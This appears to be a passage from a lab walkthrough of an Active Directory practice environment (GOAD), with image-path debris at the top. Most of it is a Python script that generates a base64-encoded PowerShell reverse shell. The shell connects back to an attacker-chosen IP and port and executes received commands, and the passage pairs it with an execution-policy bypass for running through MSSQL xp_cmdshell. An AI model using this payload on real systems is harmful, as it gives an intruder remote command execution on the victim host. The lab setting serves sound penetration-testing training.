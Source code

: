 - Let's convert this powershell command to base64 in utf-16 for powershell

```python
#!/usr/bin/env python
import base64
import sys

if len(sys.argv) < 3:
  print('usage : %s ip port' % sys.argv[0])
  sys.exit(0)

payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535|%%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
    $sb = (iex $d 2>&1 | Out-String );
    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
    $s.Write($sb,0,$sb.Length);
    $s.Flush()
};
$c.Close()
""" % (sys.argv[1], sys.argv[2])

byte = payload.encode('utf-16-le')
b64 = base64.b64encode(byte)
print("powershell -exec bypass -enc %s" % b64.decode())
```

![mssql_powershellb64.png](/assets/blog/GOAD/mssql_powershellb64.png)

- run it and get a shell

![mssql_exec_xpcmdshell_reverse.png](/assets/blog/GOAD/mssql_exec_xpcmdshell_reverse.png)
